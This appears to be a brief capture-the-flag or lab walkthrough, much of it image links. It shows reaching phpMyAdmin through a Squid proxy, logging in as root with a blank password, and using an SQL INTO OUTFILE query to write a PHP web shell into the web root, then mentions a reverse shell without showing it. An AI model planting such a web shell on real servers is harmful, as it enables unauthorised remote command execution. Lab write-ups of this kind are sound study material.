







After setting up foxyproxy to use the squid proxy:


Now trying to login to phpmyadmin
We try root with blank password.

Now we get access to the dashboard:

To find where the directory is located we can use phpinfo:


We can execute SQL:
```SQL
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "C:/wamp/www/shell.php" 
```


Now access the web shell:


Generate a shell with revshells
Now to get a shell:


